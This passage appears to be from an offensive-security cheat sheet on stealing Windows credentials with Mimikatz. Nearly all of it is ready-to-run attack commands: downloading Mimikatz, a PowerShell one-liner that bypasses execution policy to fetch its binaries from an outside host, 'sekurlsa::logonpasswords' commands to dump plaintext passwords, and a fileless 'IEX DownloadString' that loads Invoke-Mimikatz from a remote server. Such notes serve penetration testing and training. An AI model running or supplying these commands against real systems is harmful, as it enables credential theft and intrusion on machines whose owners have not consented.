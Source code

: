 First we will need to download a Mimikatz binary and copy it to the remote machine

```
root@kali:~/test# wget https://github.com/gentilkiwi/mimikatz/releases/download/2.1.1-20180925/mimikatz_trunk.zip     
--2018-10-16 15:14:49--  https://github.com/gentilkiwi/mimikatz/releases/download/2.1.1-20180925/mimikatz_trunk.zip                     
root@kali:~/test# unzip mimikatz_trunk.zip
```

Now we will need to copy the 3 files (win32 or x64 depending on the OS) required to run Mimikatz to the remote server.

```
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "(New-Object System.Net.WebClient).DownloadFile(\"http://10.10.10.10/mimidrv.sys\", \"C:\\Users\\Public\\Downloads\\mimidrv.sys\"); (New-Object System.Net.WebClient).DownloadFile(\"http://10.10.10.10/mimikatz.exe\", \"C:\\Users\\Public\\Downloads\\mimikatz.exe\"); (New-Object System.Net.WebClient).DownloadFile(\"http://10.10.10.10/mimilib.dll\", \"C:\\Users\\Public\\Downloads\\mimilib.dll\")"
```

Now, if we dont have an overly interactive shell, we will want to execute Mimikatz without the built in CLI by passing the correct parameters to the executable.  We use the log parameter to also log the clear password results to a file (just in case we are unable to see the output).

```
mimikatz log version "sekurlsa::logonpasswords" exit
```

Otherwise we can use the Mimikatz shell to get the passwords:

```
mimikatz.exe
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords
```

### Running Powershell Mimikatz

The Powershell version is not as frequently updated, but can be loaded into memory without ever hitting the HDD (Fileless execution).  This version simply reflectively loads the Mimikatz binary into memory so we could probably update it ourselves without much difficulty. 

```
wget https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1
```

Fileless execution of Mimikatz from remotely hosted server:

```
PS C:\> IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.10.10/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```

## Windows Run As
